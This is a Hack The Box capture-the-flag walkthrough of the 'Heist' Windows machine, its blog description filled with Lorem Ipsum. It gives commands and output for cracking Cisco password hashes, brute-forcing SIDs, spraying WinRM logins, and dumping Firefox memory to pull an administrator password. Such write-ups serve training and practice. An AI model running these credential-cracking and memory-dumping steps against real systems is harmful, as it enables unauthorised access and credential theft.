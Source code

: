 ```yaml
---
title: Heist - Hack The Box
author: "0xPThree"
description: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2019-09-26
image: images/heist_logo.png
categories: [hackthebox, ]
format: html
editor: visual
jupyter: python3
toc: true
---
```


![](images/heist_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------


   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝

NOTE: Working credentials found during enumeration
  rout3r / $uperP@ssword
  admin / Q4)sJu\Y8qz*A3?d
  hazard / stealth1agent
  Chase / Q4)sJu\Y8qz*A3?d
  Administrator / 4dD!5}x/re8]FBuZ

1. nmap -Pn -p- -O 10.10.10.149
    80/tcp    open  http
    135/tcp   open  msrpc
    445/tcp   open  microsoft-ds
    5985/tcp  open  wsman
    49669/tcp open  unknown
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

2. Enum port 80, login as Guest User and you'll see user Hazard post an attached file containing 2 usernames and 3 password.
    enable secret 5 $1$pdQG$o8nrSzsGXeaduXrjlvKc91
    username rout3r password 7 0242114B0E143F015F5D1E161713
    username admin privilege 15 password 7 02375012182C1A1D751618034F36415408

3. Crack all (3) the hashes.
    Password 7 types can easily be cracked using:
    http://www.ifm.net.nz/cookbooks/passwordcracker.html
    Which gives us following two creds
      rout3r / $uperP@ssword      (0242114B0E143F015F5D1E161713)
      admin / Q4)sJu\Y8qz*A3?d    (02375012182C1A1D751618034F36415408)

    Password 5 is a md5crypt and can be cracked using hashcat and rockyou.txt.
    To find the correct Hash Mode (-m 500) see https://hashcat.net/wiki/doku.php?id=example_hashes
      root@p3:/opt/htb/machines/heist# echo "$1$pdQG$o8nrSzsGXeaduXrjlvKc91" > cisco-hash.txt
      root@p3:/opt/htb/machines/heist# hashcat -a 0 -m 500 cisco-hash.txt /usr/share/wordlists/rockyou.txt -o cisco-cracked.txt --force
      root@p3:/opt/htb/machines/heist# cat cisco-cracked.txt
        $1$pdQG$o8nrSzsGXeaduXrjlvKc91:stealth1agent

    Possible Usernames:
      root@p3:/opt/htb/machines/heist# cat heist-users.txt
        admin
        rout3r
        hazard

    Possible Passwords:
      root@p3:/opt/htb/machines/heist# cat heist-pws.txt
        $uperP@ssword
        Q4)sJu\Y8qz*A3?d
        stealth1agent


4. Enumerate / Brute Windows SID through MSRPC with lookupsid.py from Impacket, using found credentials.
    root@p3:/opt/impacket/examples# ./lookupsid.py hazard:stealth1agent@10.10.10.149
      Impacket v0.9.21-dev - Copyright 2019 SecureAuth Corporation

      [*] Brute forcing SIDs at 10.10.10.149
      [*] StringBinding ncacn_np:10.10.10.149[\pipe\lsarpc]
      [*] Domain SID is: S-1-5-21-4254423774-1266059056-3197185112
      500: SUPPORTDESK\Administrator (SidTypeUser)
      501: SUPPORTDESK\Guest (SidTypeUser)
      503: SUPPORTDESK\DefaultAccount (SidTypeUser)
      504: SUPPORTDESK\WDAGUtilityAccount (SidTypeUser)
      513: SUPPORTDESK\None (SidTypeGroup)
      1008: SUPPORTDESK\Hazard (SidTypeUser)
      1009: SUPPORTDESK\support (SidTypeUser)
      1012: SUPPORTDESK\Chase (SidTypeUser)
      1013: SUPPORTDESK\Jason (SidTypeUser)

5. Extend user-list with all new users, and run user/pass through msf auxiliary(scanner/winrm/winrm_login)
    root@p3:/opt/htb/machines/heist# cat heist-users.txt
      admin
      rout3r
      hazard
      Administrator
      Guest
      DefaultAccount
      WDAGUtilityAccount
      support
      Chase
      Jason

    msf5 auxiliary(scanner/winrm/winrm_login) > run
      [+] 10.10.10.149:5985 - Login Successful: WORKSTATION\Chase:Q4)sJu\Y8qz*A3?d

6. Download Winrm Shell or Evil-Winrm and login with user Chase
    https://github.com/Hackplayers/evil-winrm     (More manageable user interface; easy upload and download of files)
    https://alionder.net/winrm-shell/             (Lightweight shell script, would not use for root)

    root@p3:/opt/shells# ruby winrm_shell.rb
    PS > whoami
      supportdesk\chase
    PS > pwd

      Path
      ----
      C:\Users\Chase\Documents


    PS > cd ../Desktop
    PS > type user.txt
      a12*****************************


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. Enumerate and find an odd running process.
    root@p3:/opt/evil-winrm# ruby evil-winrm.rb -i 10.10.10.149 -u Chase -p 'Q4)sJu\Y8qz*A3?d' -s '/opt/PowerSploit/Exfiltration/'
    *Evil-WinRM* PS C:\Users\Chase\Documents> Get-Process | where {$_.ProcessName -notlike "svchost*"} | ft ProcessName, Id

      ProcessName           Id
      -----------           --
      ..
      explorer            5620
      firefox              704
      firefox             1296
      firefox             3056
      firefox             3504
      firefox             3832
      fontdrvhost          800
      ..

2. Firefox is an odd service to be running on a HTB box, dump the process memory and see if we can grab anything useful.

    Process dump via ProcDump.exe:
    (https://docs.microsoft.com/en-us/sysinternals/downloads/procdump)
    New-Item -Path "C:\Users\Chase\Documents" -Type directory -Force
    cmd.exe /c "C:\Users\Chase\Documents\procdump.exe" -ma 704 -accepteula "C:\Users\Chase\Documents"

    Process dump via PowerSploit tool Out-Minidump:
    (https://github.com/PowerShellMafia/PowerSploit)

    *Evil-WinRM* PS C:\Users\Chase\Documents> upload ../PowerSploit/Exfiltration/Out-Minidump.ps1 C:\Users\Chase\Documents
    *Evil-WinRM* PS C:\Users\Chase\Documents> Import-Module C:\Users\Chase\Documents\Out-Minidump.ps1
    *Evil-WinRM* PS C:\Users\Chase\Documents> Get-Process firefox | Out-Minidump
      Directory: C:\Users\Chase\Documents

      Mode                LastWriteTime         Length Name
      ----                -------------         ------ ----
      -a----        10/2/2019   1:29 PM      524489927 firefox_704.dmp
      -a----        10/2/2019   1:29 PM      273600541 firefox_1296.dmp
      -a----        10/2/2019   1:29 PM      302068992 firefox_3056.dmp
      -a----        10/2/2019   1:29 PM      286191273 firefox_3504.dmp
      -a----        10/2/2019   1:29 PM      385076763 firefox_3832.dmp

3. Search the .dmp-file for credentials.
    Remotely on victim machine:
    *Evil-WinRM* PS C:\Users\Chase\Documents> Select-String -Path firefox_1296.dmp -Pattern login_password
      localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login

    Locally on attacking machine:
    *Evil-WinRM* PS C:\Users\Chase\Documents> download firefox_1296.dmp
      Info: Downloading firefox_1296.dmp to firefox_1296.dmp
      Info: Download successful!
    root@p3:/opt/evil-winrm# strings firefox_1296.dmp | grep login_password
      MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=

4. Enter the newfound password in your password list and enumerate wimrm using mfs module auxiliary/scanner/winrm/winrm_login
    msf5 auxiliary(scanner/winrm/winrm_login) > run
      [+] 10.10.10.149:5985 - Login Successful: WORKSTATION\Administrator:4dD!5}x/re8]FBuZ
      [+] 10.10.10.149:5985 - Login Successful: WORKSTATION\Chase:Q4)sJu\Y8qz*A3?d

5. Login with new Administrator creds and get root.txt
    root@p3:/opt/evil-winrm# ruby evil-winrm.rb -i 10.10.10.149 -u Administrator -p '4dD!5}x/re8]FBuZ'

      Info: Starting Evil-WinRM shell v1.7
      Info: Establishing connection to remote endpoint

    *Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
      supportdesk\administrator
    *Evil-WinRM* PS C:\Users\Administrator\Documents> type ../Desktop/root.txt
      50d****************************
